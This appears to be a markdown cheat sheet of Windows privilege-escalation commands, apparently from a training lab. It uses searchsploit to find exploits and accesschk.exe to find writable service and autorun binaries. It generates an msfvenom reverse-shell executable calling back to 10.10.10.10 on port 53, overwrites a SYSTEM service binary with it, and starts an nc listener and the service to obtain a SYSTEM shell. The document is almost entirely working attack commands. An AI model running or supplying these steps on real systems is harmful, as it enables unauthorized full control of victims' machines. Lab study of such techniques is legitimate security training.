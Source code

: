 ## Exploit searching for specific version
 
# using searchsploit to find exploits
searchsploit apache | grep PHP


## Using windows accesschk.exe program to check for service write permissions for priv escalation

# We will Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).
sc qc filepermsvc

# Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

# create a reverse shell non-staged payload using msfvenom 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe

# Copy the reverse.exe executable you created and replace the filepermservice.exe with it:
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y

# Start a listener on Kali :
nc -lvnp 53

# start the service to spawn a reverse shell running with SYSTEM privileges and get system shell!
net start filepermsvc


## Using windows accesschk.exe program to check for autorun executables that have write permissions

# Query the registry for AutoRun executables:
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
